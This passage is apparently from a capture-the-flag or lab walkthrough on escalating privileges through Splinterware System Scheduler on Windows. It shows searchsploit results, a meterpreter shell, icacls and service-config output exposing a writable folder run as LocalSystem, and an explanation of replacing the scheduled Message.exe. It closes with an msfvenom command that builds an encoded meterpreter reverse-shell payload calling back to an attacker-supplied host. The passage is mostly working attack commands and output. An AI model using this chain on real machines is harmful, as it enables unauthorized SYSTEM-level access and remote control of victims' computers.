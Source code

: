Use `searchsploit` to check for any available exploits for `splinterware`.
{% capture code %}{% raw %}searchsploit "splinterware"{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}-------------------------------------------------------------- ---------------------------------
Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
Splinterware System Scheduler Pro 5.12 - Buffer Overflow (SEH | windows/local/45071.py
Splinterware System Scheduler Pro 5.12 - Privilege Escalation | windows/local/45072.txt
Splinterware System Scheduler Professional 5.30 - Privilege E | windows/local/49858.txt
-------------------------------------------------------------- ---------------------------------{% endraw %}{% endcapture %} {% include code.html code=code %}

Check the `acl` and service status for `SystemScheduler`.
{% capture code %}{% raw %}meterpreter> shell
C:\Program Files (x86)\SystemScheduler>icacls "c:\Program Files (x86)\SystemScheduler"
icacls "c:\Program Files (x86)\SystemScheduler"
c:\Program Files (x86)\SystemScheduler Everyone:(OI)(CI)(M)
                                    NT SERVICE\TrustedInstaller:(I)(F)
                                    NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                    NT AUTHORITY\SYSTEM:(I)(F)
                                    NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                    BUILTIN\Administrators:(I)(F)
                                    BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                    BUILTIN\Users:(I)(RX)
                                    BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                    CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files

C:\Program Files (x86)\SystemScheduler>sc qc WindowsScheduler
sc qc WindowsScheduler
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: WindowsScheduler
            TYPE               : 10  WIN32_OWN_PROCESS
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 0   IGNORE
            BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : System Scheduler Service
            DEPENDENCIES       :
            SERVICE_START_NAME : LocalSystem{% endraw %}{% endcapture %} {% include code.html code=code %}

Check the logs in the target machine from the path `c:\Program Files (x86)\SystemScheduler`. There will be a scheduled task which invokes `Message.exe` file. This can be exploited and replaced with `reverse shell` payload, since the path is writable and has `system` context.

Create a new `reverse shell` payload pointing to different port.
{% capture code %}{% raw %}msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<source-ip> LPORT=4444 -f exe -o Message.exe{% endraw %}{% endcapture %} {% include code.html code=code %}
